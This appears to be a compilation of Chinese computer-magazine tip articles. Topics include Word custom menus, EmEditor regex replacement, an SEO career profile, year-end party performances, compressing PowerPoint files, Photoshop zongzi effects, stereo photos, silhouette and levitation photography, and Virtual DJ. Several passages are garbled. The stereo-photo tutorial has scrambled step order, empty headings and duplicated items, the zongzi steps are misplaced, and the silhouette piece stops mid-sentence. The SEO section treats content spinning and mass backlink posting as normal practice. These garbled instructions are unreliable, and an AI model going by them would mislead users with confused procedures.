第二步：在Word主菜单栏空白处单击右键，在菜单中选择“自定义”，在弹出的自定义窗口中选择“命令”标签，在“类别”处拖动滚动条到最下边，选择“新菜单”，然后在右边“命令”处拖动“新菜单”到Word主菜单栏空白处，单击“更改所选内容”按钮，在命名处输入“我的菜单”并回车，这时“新菜单”就变成了“我的菜单”（如图2）。

第三步：在“自定义”窗口的“命令”标签中，在“类别”处选择“宏”，在“命令”处拖动滚动条到最下边，找到“Normal.NewMacros.DelHyperlinks_Word”并把它拖到“我的菜单”下边，单击“更改所选内容”按钮，在命名处输入“删除超链接”并回车，这时“Normal.NewMacros.DelHyperlinks_Word”就变成了“删除超链接”了。最后点“关闭”按钮，到此这个菜单就制作完成了，现在你可以试试这个自定义菜单的效果了！

### 删除自定义菜单

如果你不需要某个菜单项了，首先调出自定义窗口，单击自定义主菜单，在某个子菜单上右击，在出现的快捷菜单中选择删除即可；如果你想删除整个自定义的主菜单，只需在自定义主菜单上右击选择删除即可。

（文/马震安）

## 指定小括号成批换成大括号

在文字处理中，文字内容的批量替换我们经常遇到，但是，如果在批量替换的基础上再限定条件，就需要动一番脑筋来解决了。例如，去年我在写一部校园中稿作品时，许多地方用（）来加了注释和点评，交稿前检查时发现，如果把注释和点评两个项目用不同的括号区分开来，读者阅读时会很明确，于是我希望能把文中所有包含（点评：……）的文字统统替换为【点评：……】，而除此之外注释用的（）和其他用途所使用的（）均要原样保留，不能替换。按常理，如果要把全文所有的（）替换为【】，这个比较好办，只要将（替换为【，再将）替换为】就可以了，但是，现在要替换的只是部分括号，该怎么办？同事说，先将（点评：）替换为【点评：】，再替换后面的半个括号不就可以了嘛。但后半的半个括号怎么替换？同事的想法显然用普通方法是行不通的。

下面提供一种非常简单易行的方法，我是用日本产的文字编辑软件EmEditor来完成替换任务的。

第一步：用EmEditor软件打开你要处理的文本，如果你的文本是EmEditor所不支持的格式，请在你所用的文字处理环境下全选全文，然后复制到EmEditor的编辑窗口中替换（等替换完成后再回拷到原来的编辑环境中）。

第二步：在EmEditor窗口中用热键Ctrl+H启动“替换”窗口，在“查找”框中输入“（点评：.*）$”，在“替换为”窗口中输入“【\1】”，接着选中窗口中的“使用正则表达式”前的复选框。

第三步：以上设置完成之后，点击“替换”窗口中的“全部替换”按钮，完成希望的替换任务。

注意：

“查找”框中输入的括号，外面一层括号是全角的汉字括号，而里面一层是半角的英文括号，这个不能弄错，否则不能得到正确的替换结果。

一组小括号定义了一个代号为1的不定长字符，这个字符串将在“替换为”窗口中被用来以“\1”进行引用。“查找”框中的“.*”符号则定义了一个由任意字符组成且无限制的子串内容，这就是我们要定义的评论内容。“$”定义了一行的结束，表示评论结束，另起一段。

(文/苍竹)

## 做一名网络销售师，你准备好了吗

随着很多企业进军互联网领域，开展网络营销，网络营销师的需求也大大增加，网络营销师成为目前最紧俏、最抢手的职业，做一名网络营销师，你准备好了吗？

网络营销师是指将互联网技术与市场营销相结合，通过各种技术手段，迅速提高网站综合排名和访问量，并为传统企业或网络企业提供网络营销规划、网站建设规划、网站诊断、搜索引擎优化等服务的人。SEO（搜索引擎优化）是目前较为流行的网络营销方式，也是目前需求最多的网络营销岗位，下面我们先来了解一位SEOer小郡的工作。

## 一名网站SEOer的一周

-   周一：原创文章一篇+伪原创5篇+问答外链10个
周一刚上班，我就给自己网站实施了1篇的原创文章，因为周末休息，网站没有更新，然后进行伪原创5篇，再加上问答推广外链建设。一般是在百度知道、soso、天涯等几个外链权重比较高的地方发布，不仅能够提升网站的权重，还可以带来一些业务。
-   周二：软文一篇+伪原创5篇+分类信息外链5个
软文推广是一个比较有效果的外链建设，首先会被很多网站转载，也比较稳定，一般不会被删除。再加站内5篇的伪原创文章编辑，最后进行分类信息外链发布。
-   周三：原创文章两篇+博客外链20个+伪原创5篇
博客外链主要是新浪、网易、搜狐、天涯等十几个博客，都是自己长时间培养过来的。此外更新20篇加外链的文章，偶尔有时间给它加不带链接的文章，以提升博客权重。
-   周四：原创文章两篇+论坛外链20个+伪原创5篇
论坛跟博客是常见的外链建设地方，论坛相对自己养的博客肯定难度大点，在别人的地方别人说了算，我选择了几个相关的论坛发布外链，加上一些站长类型的论坛，比如推一把，28推等，效果还不错。
-   周五：软文一篇+分类信息外链10个+伪原创5篇
周五是每个上班的人期待的一天，因为到周末又可以休息了，我给自己安排的是原创软文一篇，加10个分类信息外链。

## 网络营销师的前景

大家都很关心SEO的薪酬，据小郡透露，SEO的薪水不固定，形式为底薪+提成，新手和从事SEO工作五年以上的人的工资肯定是不一样的哦。可以这么说，1万不算高，800不算低，就看你自己！

总之，SEO是需要长时间经营的，小郡初入行的工资就是入门水平，工作内容也相对枯燥，但是想象无限，她下一年定的目标是年薪30万！

小郡选择这个职业也是看好了巨大的发展前景，她认为，网络营销是一个企业的无形资产，网络营销创造的价值是不可估量的！

据报道，未来十年十大高薪职业中网络营销师排名第一！暗答团副总裁段剑波指出，现在的企业对网络营销人才可谓是求贤若渴，而且未来这种需求会持续增加。据北大青鸟产品研究院院长肖睿保守估计，目前网络营销师职业的缺口达100万！

应市场需求，招聘网站也纷纷将网络营销师纳入到职位列表中，以智联招聘为例，在销售职位里增加了网站推广一项，在互联网的职位中增加了电子商务/SEO一项。

如何成为一名网络营销师

需要明确的一点是，网络营销师属于营销岗，不是技术岗，网络营销师是以“营”为主，辅助“销售”，需要以营销的思维去做。作为一名网络营销工程师，必备的知识是网络营销和营销知识。

如果你有网络营销基础，可通过目前比较大型的SEO论坛和博客自学，增加实战经验，试着做出一些成绩来证明你的实力（比如你优化了某个网站，某网站的排名很好），那么你应聘的成功率会大大提高。由于网络营销涉及的行业非常广泛，应聘时要注意的是选择你熟悉的或是有潜力的行业。

而如果你对网络和销售都知之甚少，只是想步入这个职业，可以选择参加一些培训。由于网络营销工程师是新兴职业，目前高校还没有相关的课程；但工信部，阿里巴巴，北大青鸟等都开设了网络营销工程师的培训课程，以北大青鸟为例，近期发布的学士后网络营销师课程包括网络营销基础、网站建设、网络推广、搜索引擎推广等模块。经过5-6个月的在线学习培训后，学习者可掌握网站规划、搜索引擎营销、微博营销、论坛营销、EDM营销等多项技能，可以作为网络营销、网络推广工作的敲门砖。

(文/东林)

## 职场新人如何准备年会节目

又到一年年底，年底是很多职场人最辛苦，压力最大的阶段，可这当口，年会节目也排上了日程。忙碌的职场人，特别是职场新人，该如何准备年会节目呢？

## 把年会当作难得的机会

虽然有各种各样的抱怨，但既然年会已像“春晚”一样被固定格式化，不妨把这当成展示自己的舞台。尤其对职场新人来说，这是让领导和同事们认识自己的大好机会，年会说白了，是大小领导们对员工表示关心慰问体贴的秀场，也是普通员工抓住机会让领导对你留下深刻印象的战场，借助年会这个舞台，用求新求变、与众不同的节目，可以给自己的职场表现加分不少。

## 新人年会上如何“秀”

一般公司对于新人的节目尤其看重，百度内部沟通部经理李琦已组织过多次公司的年会，她给职场新人的建议是一重视但不要太冒尖。

你的直接上司，也就是部门领导都是很希望员工能在年会上出彩的，不过领导大都很忙，没有时间组织和张罗这个事情。作为职场新人，如果能为领导排忧解难，主动把年会的准备当成一个重要工作去完成，老板一定很开心，说不定还会增加红包的额度哦！

不消说，新人在年会上是一定要表演节目的，为此，尽早把工作完成，以有时间和精力来准备年会。新人们在有了好的点子后，可以向领导提议，说明自己的策划，然后就可以开始准备了。这里要注意：不管新人多么有才艺，过份表现绝对不是最聪明的做法。稳妥的方式是准备一个集体节目，这样既创造了表现的机会，又不至于太冒尖。

节目的选取有一个参考原则，就是选近自己企业的一些故事，尽量表现出所在部门（小组）的合作精神，让大家感觉到这是一个团结的、积极向上的集体。一方面通过节目让整个公司对你们部门（小组）有所印象，另一方面可借助节目让大家了解你们的工作内容。比如，某公司的小品《xxx部门的一天》，通过小品形象地表现了该部门忙碌、紧张、高效、团结的一天，给全公司都留下了深刻的印象，为该部门也赢得了良好的口碑。

## 如何选取表演节目

一般来说，年会节目形式不胜枚举，基本可分为语言类、舞蹈类、唱歌类三大类，具体的选取要参考公司往年表演的节目、年会的氛围，以及企业本身的文化来定，这里给出一位业内人士的参考意见。

以经验看来，比较受欢迎的年会节目中，相声、小品和短剧算一种，因为语言类节目有其自身的优势，可按自己的需求去定制剧本，可以写入平时的工作和笑料，只要大家放得开，就可以演得很精彩。

再者就是舞蹈了，从舞种和风格上有非常多的选择，尤其是劲歌热舞，最能带动气氛！集体跳一段简单的华尔兹交际舞也是不错的选择，只要跳得动作整齐，还是很吸引眼球的！需要注意的是，如果选择舞蹈，别忘记提前了解年会的场地情况。

对于5-10人的组合，如果大家唱歌都不错，也可以安排合唱，虽说是合唱，也可以有很多新颖的编排方式，比如手语歌曲，或是找乐队给你或你的领导伴奏。最后，祝大家都能在公司年会上有美美的表现，同时别忘了和广大稀饭们一起分享哦。

(文/郭崇芬)

## 多管齐下 PowerPoint课件全面‘瘦身’

最近我们参加省“赢在未来”杯课件制作大赛，要求制作工具必须是PowerPoint，课件体积不超过10MB。开始对课件体积这个要求并没有在意，可课件制作完成后，却发现体积差不多50MB了。尝试上传到网络平台参赛，根本无法通过。看来唯有给课件“瘦身”，才能从根本上解决问题。在经过多次“手术”后，课件最终被压缩至10MB以下，顺利上报了课件参加比赛。现将“瘦身”经验跟大家分享，相信会对各位同仁有所启发和帮助。

### 抓住根本，素材的‘减肥’

课件体积之所以会变大，其根本原因是插入的图片、音视频等素材比较大，所以要减小课件体积，还得从根本上减小素材的体积。特别是音视频素材，在使用前进行必要的处理，可以让体积缩小一半以上。

一般情况下，课件的封面都会加上背景音乐，很多老师都是直接从网上下载一些轻音乐或钢琴曲，直接插入到课件中使用，而这些音乐的体积一般都在3MB以上。其实背景配乐可以不用一首完整的乐曲，只使用音乐中比较精华的部分，在PowerPoint中设置为重复播放即可，这样也完全能起到背景音乐的作用。因此对音乐进行必要的裁剪，再使用专用工具进行压缩，一般能将音乐缩小到0.8MB以下，从而间接减小课件的体积。

-   1.打开MP3文件剪切器 (下载网址：http://www.skycn.com/soft/27078.html)，单击“浏览”打开音乐文件，播放音乐，单击“开始”和“结束”按钮可设置保留部分，最后单击“另存为”保存音乐文件。
-   2.打开MP3瘦身专家 (下载网址：http://www.skycn.com/soft/52681.html)，单击“添加音乐”加入课件背景音乐，单击“浏览”按钮选择保存文件夹，在“比特率”中选择“AM广播品质(32Kbps)”，“声道”选择“单声道”，最后单击“开始压缩”按钮开始瘦身。最终的音乐文件(1MB左右)只有原来的四分之一，大概在0.25MB左右。音质虽然略有降低，但是普通人基本上听不出区别。通过这种方法，课件中音频文件的体积就会得到控制，瘦身效果非常明显。

如果为了控制课件体积，就把其中的视频删除，有些得不偿失，还不如用画质稍低的视频，这样能保证课件的完整性。对于视频素材，通过改变其格式以及使用折中的视频质量，在画质和体积之间寻求平衡，视频的质量可以根据课件的大小限制来确定。当然了，视频中不需要的部分最好提前剪辑删除，以免徒增视频的体积。

打开“曦力音视频转换专家”（网址：http://www.xilisoft.com.cn），单击“添加文件”加入视频，在“预置方案”的“视频质量”中选择“码率计算器”，在“文件大小”中可以预置视频文件的尺寸，从而便于我们根据课件的总体积来确定视频的体积。视频保存格式最好选择wmv，因为这是微软自己的视频格式，与PowerPoint结合也相当紧密。

音视频素材的体积得到控制后，课件的体积也会明显减小。如果课件中使用的图片比较多，则也可以使用图像处理软件对图片进行批量压缩。其实课件制作中，仅仅依靠某一款工具是不完善的，很多时候一些实用的小工具，可以帮助我们制作出精品的课件。

### 挖掘潜能，用好 PPT 压缩功能

在PowerPoint2010中也内置了压缩功能，可对图片、音视频进行剪辑。在发布课件时，可以对课件质量进行设置，从而实现压缩课件体积的目的。

首先在导入音频文件后，切换到“播放”标签，选择“循环播放，直到停止”选项，这样音乐会重复播放，背景音乐一般都会选择选项，单击“剪裁音频”按钮出现对话框，可以设置音频保留部分，剪裁音频后，最好设置淡入和淡出，这样确保循环播放时，音乐之间的切换比较平和。对于视频文件我们也可以进行同样的剪裁，去其糟粕，留其精华。

在保存课件时，对于课件中的图片，我们也可以设置图片质量。在保存窗口中，单击“工具”选择“压缩图片”，选择“删除图片的剪裁区域”可删除课件图片中被裁剪的部分，在“目标输出”可选择图片输出分辨率，选择适中的分辨率，可在保证质量的同时，又减小了课件的体积。

当课件制作完成后，切换到“文件”标签，选择“信息”选项，单击“压缩媒体”选择课件的质量，根据实际需要，选择课件的输出质量，质量越低则课件的体积越小。为满足某些特殊需要，有时降低课件的质量，保证课件的完整性也是必须的。课件的体积越小，运行相对会越流畅。

如果课件中使用了特殊字体，为了保证正常显示，我们可以将字体嵌入到课件文件中，不过这样也会明显增加课件的体积。如果特殊字体使用的不多，可以将使用特殊字体的文字转换成图片：首先复制文字，然后使用“选择性粘贴”，直接将文字粘贴为图片；如果课件中需要重复使用某段音视频文件，那么最好使用超级链接，尽量不要在同一个课件中插入多个相同的音视频。

### PPTminimizer,PPT 文件瘦身‘特效药’

在使用上述方法对课件进行瘦身后，原来差不多50MB的课件最终已经成了15MB左右，但是还是没有达到比赛指定要求。无奈之下上网寻求帮助，竟然找到一款专门用来压缩PowerPoint课件的工具——PPTminimizer，支持最新版的PowerPoint2010文件，可以对已经减肥过的PPT课件进行最后的强力‘瘦身’，而且效果非常明显，参赛课件最终被压缩到10MB以下了。

打开PPTminimizer （下载网址：http://www.onlinedown.net/soft/74232.htm），单击“打开文件”按钮添加课件文件，在“压缩率设置”中可直接选择压缩标准，压缩率越高课件质量也会相应降低；选择“自定义压缩”，然后单击“设置”按钮，可根据实际需要选择压缩比例，设置结束后单击“优化文件”按钮即可压缩PowerPoint课件。

(文/周建峰)

## 品味另类粽子

转眼间端午将至，又到粽子飘香的时节啦。说起粽子相信大家都不会陌生，有各式各样的甜粽和咸粽，但大家肯定没有见过“金粽”、“玉粽”、“西瓜粽”，以及其它各色的宝石粽吧？哈哈，这期就来讲述如何把普通的粽子PS成另类质感的粽子。

### 01

打开一张普通粽子的素材，复制背景层（要养成习惯）。用钢笔工具顺着左边那个拨开的粽子边缘做个路径，然后打开路径面板，即可看到这里保存着刚才画的那个路径了。右击这个路径，选择“建立选区”，羽化0.5个像素确定。然后转到图层面板，按下快捷键Ctrl+J复制选区内容，这样就把那个粽子抠出来了，再按一次快捷键Ctrl+J复制一层，分别命名“图层1”和“图层2”。如图1所示。


### 02

对于仿玉效果的制作，我还是颇有心得，主要是利用图层样式通过相应的设置做出玉的质感，再用曲线以及色相饱和度工具进行调色完善。选择图层1，点击图层面板下面“fx”的图标打开图层样式面板。选择“斜面和浮雕”，这个主要是增加些立体效果，具体的如图2所示。需要注意的是阴影模式的颜色要选择“深绿色”，其它的数据因不同的素材有所调整才可以达到比较好的效果，这个大家可以多加练习多感悟。



选择“内发光”，这个是比较关键的一项了，通过合理的调节能够体现出玉的质感，需要注意的是，混合模式的颜色也要选择“深绿色”，具体的数据如图3所示。



选择“外发光”，这是做出玉石的表面光晕的效果，同样混合模式的颜色也要选择深绿色，具体的如图4所示。



### 03

通过以上对图层样式的设置，玉的质感大体出来了，下面还要进一步加强完善。点击图层面板下面的黑白图标打开曲线调整层，这主要是加强玉粽子的色彩质感效果，具体的如图5所示。



### 04

点击图层面板下面的黑白图标，打开色相/饱和度工具，这主要是改变颜色，调成玉石的色彩，需要注意的是要勾选“着色”，然后再拉动色相滑钮进行调色，至此玉粽子的效果已经全部完成啦。具体的如图6所示。



选择“外发光”，同样混合模式中颜色也要选择黄色，如图10所示。





### 05

加个色相调整层，改变色相，再稍改变图层样式中“内发光”的颜色，又可以得到类似西瓜似的绿皮红瓤效果的粽子，这个大家有兴趣可以玩玩哈，具体的如图7所示。



### 06

下面我们将再做个金粽子的效果，隐藏玉粽子全部的图层，打开上面隐藏的图层2，放在最上层，打开图层样式面板，选择“斜面和浮雕”，具体的数据如图8所示。选择“内发光”，需要注意的是混合模式中所用的颜色要选择黄色，上面是玉石效果，所以用选择绿色，这次是金色效果，所以要选择黄色，具体的如图9所示。





07同样地加个曲线调整层加强质感光照效果，如图11所示。08最后再加个色相饱和度工具的调整层，关于如何打开工具调整层，上面已经说了就不再详述了，这样金粽子的效果也已经全部完成了，具体的如图12所示。



### 07

### 08

### 09

至此，三个效果都做出来啦，可以找张有关的端午的素材进行合成，还可以把三个效果集中在一起搞出动画的效果，最终的效果如图13所示。


小结：通过本例，加深了大家对图层样式的了解应用，以后可以举一还三地做出类似更加精彩的效果。有何不明白的请到论坛图形图像区交流，彩色效果图届时也会上传论坛的~

(文/凡鱼)

## 制作专业级的立体照片

我们在第7期教了大家如何通过Photoshop及美图秀秀制作简单的3D效果照片，但这种方法容易产生细小的图像差距，得到的立体图只能大致看，仔细观察细节的话很伤眼。本期将带大家制作真正专业级别的立体照片。

好，有少数活动物体的固定场景效果次之，对移动物体的拍照则是极为困难的。

不是的话可用“View - Swap Left/Right”交换。

### 前期准备

1.  为了把普通照相机拍摄的照片合成为立体照片，我们需要软件“StereoPhoto Maker”的帮助，下载地址http://www.newhua.com/soft/63744.htm。

    具体操作：左眼位置先拍一张，把相机平移到右眼的位置，再拍一张。如果拍摄近景，可减少平移距离。如果拍摄远景，可增加平移距离。

2.  排好了左右图，选择“Stereo - Color Anaglyph - Optimized Anaglyph Setting”，此处设置图片补色，用以优化3D效果。如果操作起来不顺手，可直接参照我的设置。

    +   1. 为了把普通照相机拍摄的照片合成为立体照片，我们需要软件“StereoPhoto Maker”的帮助，下载地址http://www.newhua.com/soft/63744.htm。
    2. 拍摄照片用的相机没有特殊要求，傻瓜相机即可。最低限度，电脑摄像头或者手机也成！
    3. 特殊的立体显示设备并不便宜，因此不列入考虑；我们会将照片保存为“红蓝立体图”格式，只需一副红蓝眼镜即可观看，眼镜可在网店购买，建议为纸卡款。

    如果希望拍摄移动物体，那么不得不借助两台照相机了，可以找朋友借一个相机，拍照效果与自己的类似即可，然后将它和自己的相机按两眼距离并排放置在固定平台，都打开摄像模式进行图像获取；把获得的两个短片用视频编辑软件（如Adobe Premiere）打开，从中选取同步的帧，提取出来作为立体照片素材。

    点击“OK”确认，软件默认就进入了“Optimized Anaglyph (优化)”显示模式。

### 照片拍摄

### 后期处理

3.  之后选择“Adjust - Auto alignment (自动对齐)”，稍等片刻，软件就会根据照片内容，自动将两张照片进行对齐。笔者使用过不少同类软件，如i3D Photo等，但在效果上难有能和本软件比肩。

    立体照片需要让左右眼看到不同角度的图像，因此拍照时我们在左右眼的角度都得拍一张，只不过现有条件我们没办法在同一个瞬间获得两个角度的图像，得分时拍照，所以这个方法拍静止物体效果最好。

    所谓后期处理，很容易想到就是把左右眼图像分别做成红蓝图，然后把它们叠加在一起，这点对于有图像处理基础的朋友都不难办到；但是！立体图的后期处理并没有那么简单！

    自动对齐完毕就可以戴上眼镜试试效果了。如果之前左图和右图弄反了，这里一看就会觉得超别扭，对调方法参照前文。

    #### 小知识:

    拍照的时候我们没有使用专业设备，是通过“手持”的方式来“平移相机”的，这样无法保证两次拍摄时相机所处的高度完全相同；同样，第二次拍摄时的倾角、仰角、偏角都会和第一次略有不同，这种条件下简单把图片叠加后，尽管大体的立体感是有的，但仔细观察的话，左右眼图像在细部都会有一定的高度偏差。勉强观看的话，特别伤眼！

    +   “3D”和“立体”概念有点混用，现在“3D”经常同时表示“立体”，但3D实际上不等于立体。“3D”基本意义即物体存在空间三维概念。
        “立体”的概念是相似的，但更强调“观看方式”。观看真实物体时，左右眼的观察位置、角度存在微小差别，大脑借此建立起物体的纵深感。“立体”就从这个出发，准备两幅拍摄位置、角度略有不同的图片并通过让两眼分别观看其中一副来模拟观看真实物体的感觉。
        两个概念意义相近，前者更强调物体的本质，后者更强调观看的方式。就算是3D物体，也可以用平面的方式来观看，比如我们一直以来就都是在平面的显示器上玩3D游戏的。
        立体效果必须左右眼看到不同图像，而很多3D照片只是加强了图片的分辨率，增加了立体感，有点类3D的感觉，但仔细看的话非常伤眼。

    如果对了一次觉得还不够齐（少数物体高度依然有偏差），可以再执行一次自动对齐，弹出“Do you want to use the previous report files?”对话框时选择“否”。

    要修正这种细部偏差，即便是用专业图像处理软件Photoshop也并不简单。幸好，我们有StereoPhoto Maker，软件虽不大，术业有专攻——拍摄高度和拍摄角度的偏差对它来说是小菜一碟，而且可贵的是它能独立完成所有修正工作，不需要使用者有任何相关知识！

4.  接下来设置焦点。焦点就是图中没有重影的点；比焦点远的物体，立体效果为“入屏”，比焦点近的物体，立体效果为“出屏”。

    ##### 使用前先进行初次设置:

    打开软件，选择“Edit – Preferences (首选项)”，进入“Adjustment (调整)”页，把“Better precision (高质量)”勾选，而把“Auto crop after adjustment (调整后自动裁剪)”去掉。

    如果想增强照片的立体效果，可以适当把焦点往远处推移，让近处的物体发生“出屏”，并保留远处物体的“入屏”效果，设置热键为键盘方向键“←/→”。

    ###### 具体后期处理步骤:

    1.  打开软件，选择“File – Open Left/Right Images”，定位到素材位置，按住Ctrl键同时选定左眼和右眼图（方便起见，有必要翻转的照片请先翻转好），并“打开”。

        可以注意到，手臂的位置没有重影，即焦点放在手臂处，于是比手臂更近的拳头发生了“出屏”效果，其余远处物体则为“入屏”效果。这就是一张“拳头打出了屏幕”的立体照片了~

        此时要确保左眼图在左边，右眼图在右边。如果不是的话可用“View – Swap Left/Right”交换。

5.  如果已经得到了理想的3D效果，那就进入最后的阶段，选择“Edit – Crop – Free Cropping”进行裁剪，把自动对齐和焦点调整所产生的杂边去掉，然后选择“File – Save MPO File”存为MPO立体图，可以用Stereoscopic Player等立体媒体播放器打开，或者用StereoPhoto Maker。嫌MPO格式不方便也可“File – Save Stereo Image”将图片保存为常见图片格式，如选择JPEG，再把“Image Quality”条拖到最右，同时勾选“No compressing ghosting”，保存。一张JPEG格式的立体图就完成了！

    使用这个方法，获取素材只需普通设备即可，操作方式只是举手之劳，后期处理也能由软件全权代理。怎么样，制作专业级的立体照片可一点都不困难哦~

(文/庄哲耕)

## 拍出无声胜有声的剪影

剪影拍摄是逆光摄影的一种特殊效果，就是直接利用明亮的背景和较暗的被摄主体环境，烘托出一种特有的气氛。剪影不仅可以表现出物体的轮廓美，还可与背景构成有力的视觉冲击。而剪影照片的妙处也就在于无声胜有声，下面就给出一些剪影拍摄的提示和技巧。

陪体并非越亮越好，陪体应以无眩光进入镜头为最佳。日出、日落时是拍摄带有剪影效果照片的最佳时段。

主体的暗度不够(稍明亮)时，可以降低1~2档的曝光量，此时画面的剪影效果将得到明显改观。

### 主、陪体光亮反差要明显

要想拍出带有明显剪影效果的照片，首先被摄主体和陪体之间必须具有明显的光亮反差，即相对来说主体应越暗越好，但主体不应占过大的比例，而

### 背景干净，主体轮廓要鲜明

任何物体都可以拍出剪影，但总有些物体拍出来效果更好些。尽量选择轮廓清晰、鲜明的主体拍摄。由于剪影不追求颜色、层次和影调等细节，所以一定要有一个清晰的轮廓。

### 主题要突出

在表现剪影照片时，最需要的是拍摄者有明确的意图——即照片的主题思想。比如对刚蒙蒙亮的天空测光并曝光后，灯塔、大海、云层与天空形成强烈的对比，此时能很好地表现出现场的光影氛围和物体的形态。用剪影来表现人体婀娜多姿的曲线形态和神态也是常见的手法。

### 关掉闪光灯

对被摄体进行逆光拍摄，是剪影拍摄的最常规手法。在此状态下，如果将闪光灯设为自动模式，通常会自动开启闪光灯，从而破坏剪影的效果。剪影摄影在控制曝光量上通常是“宁欠勿过”，所以请关掉你的闪光灯，让被摄主体前的光尽可能地少。


### 把握神态，使剪影照片活起来

很多人拍摄剪影照片时会非常注重强烈的反差效果。但这只能反映出画面中的形态。尤其在拍摄人物、动物时，在把握好主、陪明暗反差的同时，摄影者更应注意把握和突出(表现)出它们的神态，而神态通常是通过动作表现出来的，只有这样才能使带有剪影效果的(人物)照片活起来。

使用单反相机的朋友可以采用“平均测光”或“点测光”（“点测光”要更优于“平均测光”），对准拍摄画面中的高光部位进行测光。如果画面内被摄


(文/吴晓华)

## 摆脱地心引力 悬浮创意摄影

一名叫Natsumi Hayashi的日本女孩，使用手中佳能相机的定时拍摄功能，开始在日本大街小巷留下了悬浮空中的创意自拍照。她说：“如同万有引力般，繁重的社会压力影响着我们每一个人，希望借着这样悬浮在空中的照片，让在重压之下的大家也能感到一点自由吧。”看到日本这位女孩的各种神奇的照片，顿觉轻松快乐无比。So，我们为什么不试试呢？经过一段时间的不断练习，猴子也掌握了其中精髓，拍出了很多不错的悬浮照片，更重要的是在这个过程中和朋友一起获得了很多的快乐和欢笑，我想这才是悬浮摄影的真正意义。下面就和大家分享一下拍摄悬浮照片的秘密。



### 保持地面的自然

由于悬浮摄影的宗旨是展现一种脱离地心引力的生活状态，所以这就和一般旅行或者和朋友一起拍摄纯跳跃的照片有了很大的区别。一般我们看到的跳跃照片，都是大家用力起跳，肢体动作毫无章法，表情扭曲甚至夸张，这对于一个悬浮生活的人来说，太OVER！我们要想象我们就是一个悬浮生活的人，即使在空中，我们还是拥有在地面做同样动作的相同表现，比如看书时拿着书专注的表情，打乒乓球时弓步用力的表情……只有姿势和表情的同时完美配合，出来的照片才真正有悬浮感，而不是跳跃感。

### 想悬浮先练跳跃

其实，我们在地球上是不能真正摆脱地心引力的，但是努力地跳跃可以让我们暂时放飞肢体，而悬浮照片拍摄的正是这一精彩的瞬间！所以，想要拍好悬浮照片的第一点就是练习好跳跃，努力让自己跳得更高、在空中停留的时间更长，四肢的动作更多更自然，这样得到奇妙照片的可能性就更大。一双运动鞋或橡胶底平底鞋是最好的跳跃帮手，强烈不建议穿高跟鞋跳跃，因为危险系数极高，容易因重心不稳摔伤。

### 快门时间的控制

相对日本这位女孩独自靠延迟自拍来拍照，我更加赞同邀约朋友一起拍摄这样的方式。一是人为能更好控制照相机，二是能相互体验悬浮感，互相鼓励并享受一起拍照的快乐。一般情况下，朋友喊123的1我起跳，朋友在3按下快门刚好合适。不过针对不同的相机，通过几次的磨合大家完全可以研究出适合你们的123。



### 玩的就是创意

玩悬浮其实玩的就是创意！所以我们要有无限创意才能体会其中的乐趣。看到门，就想我可以在空中开门，可以在空中踢门，可以在空中进门……所以要发挥想象力，悬浮才能玩得更有意思！



### 拍摄花絮

厕所的这组照片我自己也非常喜欢，因为实在很有趣。这次的着力点是门框。当我们有了一个着力点的时候，借助这个点的力让我们的跳跃变得容易一些。我靠门站好，然后手捏住门框，用力起跳，起跳的同时注意好自己留下轻松的表情和姿势，一张有趣的照片就成功了。（不过其实我是尝试了好几次呢，跳得汗水哗啦啦的，所以不断调整和尝试非常有助于我们拍出完美的照片。）大块头洒水车的照片拍摄其实很简单，我是原地站好，伸一只手抓住洒水车的后视镜，然后以后视镜把手为着力点，用力起跳，跳起来的时候，脸部朝下，表情淡定，双腿尽量自然伸直前后摆动，看起来就像在和车子平行走路啦！乒乓台的照片，因为没有任何的着力点，所以拍摄起来要费劲一些。于是我充分运用了一段空地进行了助跑，所以才能跳得如此之高，同时也保证了头发以一种流线型的趋势出现，不遮挡脸部。其中，有一些细节需要注意，比如乒乓球拍的正面要朝向镜头，双腿的跳跃要一前一后，犀利的必胜眼神等，都是这张照片完成的必备条件哦！

### 悬浮照欣赏

日本悬浮少女照[http://www.xtx6.com/photography/syxw/2011/0224/2468.html](http://www.xtx6.com/photography/syxw/2011/0224/2468.html)
俄罗斯摄影师Anka Zhuravleva的作品[http://www.haibao.cn/article/179581.htm](http://www.haibao.cn/article/179581.htm)
北京“悬浮哥”[http://www.hudong.com/wiki/%E6%82%AC%E6%B5%AE%E5%93%A5](http://www.hudong.com/wiki/%E6%82%AC%E6%B5%AE%E5%93%A5)
北京女孩北京女孩地坛浮游[http://bbs.99ys.com/viewthread.php?tid=203320](http://bbs.99ys.com/viewthread.php?tid=203320)
Cfan小编的悬浮照[http://bbs.cfan.com.cn/thread-1371790-1-1.html](http://bbs.cfan.com.cn/thread-1371790-1-1.html)
(文/小猴子iris)



## DJ效果自己做 人人都能High起来

在迪厅或音乐酒吧里，大家可能对领唱的DJ充满敬畏，对那些眼花缭乱的按钮和闪动的灯光感到很神秘。其实没有专业的设备，只要有一台电脑，完全可以模拟下来，自己过把DJ瘾！

### DJ 模拟软件

笔者向大家推荐一款DJ模拟软件，即先锋1000模拟DJ打碟机（Virtual DJ），可到官网[http://www.virtualdj.com/](http://www.virtualdj.com/)下载。其主要功能有波形监视混音，播放机具有SYCN同步按钮，可自动找点对拍，还可以使用REC录音功能，录制成MP3或其他格式的音频文件。在sample菜单下，可设定常用的节拍素材，采用单次或重复播放的效果，功能很强大。笔者把最常用的几个控制按键和界面操作介绍给大家，几分钟就能成为业余DJ，更多功能可以自己摸索。

### DJ 歌曲制作

1.  选曲
    DJ素材歌曲可以从网上下载，最好选择自己所熟悉的能听出节奏的曲目，一般选用节奏感强烈的DJ曲子，两首歌曲的节奏尽量不要相差太多，这里以《高原红》和《我要去西藏》两首DJ舞曲为例，教大家制作出属于自己的独一无二的DJ曲子。
2.  衔接和混合
    安装运行Virtual DJ软件后，进入主界面，在文件夹窗口中选择music菜单，把两首歌曲分别拖入唱片窗口中，可看到曲目的名字节奏和时长，《高》为146拍，《我》为120拍，分别拖入AB播放器后，调整节奏推子。可查看BPM指示，即节奏控制推子左下角的数码显示，这里为125拍，这时将混音控制推子放到中间，两首曲子会播放两个节奏，按下同步按钮，最上面的波形指示中红和蓝会吻合，再从左到右滑动混音推子，把两首歌曲衔接起来。小提示：播放控制区有两个，分别模拟两台打碟机，节奏控制推子可达正负33.3%，按下中间的按钮则自动恢复到原始节奏，音量推子控制每个打碟机的输出音量。
3.  录音设定
    按下REC按钮，窗口中出现START RECORDING按钮，设置录制名字和存放路径，默认为MP3格式。
4.  动手制作
